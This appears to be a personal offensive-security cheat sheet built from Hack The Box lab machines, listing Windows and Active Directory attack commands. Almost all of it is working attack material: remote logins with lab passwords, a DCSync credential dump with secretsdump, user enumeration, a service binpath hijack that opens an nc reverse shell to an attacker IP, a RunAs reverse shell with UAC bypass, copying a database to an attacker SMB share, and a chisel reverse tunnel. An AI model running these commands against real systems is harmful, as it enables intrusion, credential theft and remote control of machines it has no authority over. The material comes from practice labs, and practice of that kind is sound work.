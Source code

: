 


*connecting with evil-winrm with KRB ticket*

*this worked for win-rm* -> this has to b the most ugly command I have ever written

KRB5CCNAME=./svc_winrm.ccache sudo docker run --rm -it -v "/home/ew/box/Voleur/svc_winrm.ccache:/tmp/krb5cc_0" -v "/home/ew/box/Voleur/krb5.conf:/etc/krb5.conf" -v "/etc/hosts:/etc/hosts:ro" evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB 


 *NTLM authentication*
sudo docker run --rm -it evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' 


are you using kerberos or NTLM authention? pay attention the commands may change


*generating TGT for user*
nxc smb frizzdc.frizz.htb -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' --generate-tgt f.frizzle



*grabbing bloodhound info*
bloodhound-python -u 'svc-printer' -p '1edFg43012!!' -ns 10.10.11.108 -dc printer.return.local -d return.local -c All  



*start neo4j*
sudo neo4j console



**getST.py**
**ntlmrelayx.py**
**secretsdump.py**


*DCsync attack*
secretsdump.py 'puppy.htb'/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.180 



*rpcclient guest with no password*
rpcclient 10.10.11.108 -U 'guest%' 

rpcclient $> lookupnames administrator


`lookupsids`

lookupsid.py svc-printer@10.10.11.108

```
netexec smb 10.10.11.222 -u guest -p '' --rid-brute
```


*uses SAM remote interface to enumerate users, works over smb/RPC*
`samrdump.py`

samrdump.py return.local/svc-printer:'1edFg43012!!'@10.10.11.108 



*powershell/cmd enumeration*
whoami /priv
whoami /groups

sc.exe query -> list running services

*list services*
```
 $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```



*copy docker files in and out of container*
sudo docker cp 245f71c07597:/data/site-backup-2024-12-30.zip /home/ew/box/puppy/loot/site-backup-2024-12-30.zip



*adding a service*
```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
```

*running service on attacker machine*
```
sc.exe start VSS
```



*all open ports*
netstat -a 



*start smb server for file transfer from windows*
```
smbserver.py share . -username 0xdf -password 0xdf -smb2support
```

 *use share*
```
net use \\10.10.14.6\share /u:0xdf 0xdf
```



*copy to share*
```
copy data\gitea.db //10.10.14.6/share/
```
``

*RunAs.exe command*
```
.\r.exe openfire 'HotP!fireguard' powershell -r 10.10.14.6:444 --logon-type 5 --bypass-uac
```


*Chisel Command (rev proxy for tunneling)*
on attacker machine
```
./chisel_1.10.1_linux_amd64 server --reverse --port 7878
```
on target
```
chisel.exe client 10.10.14.24:7878 R:9090:127.0.0.1:9090 
```



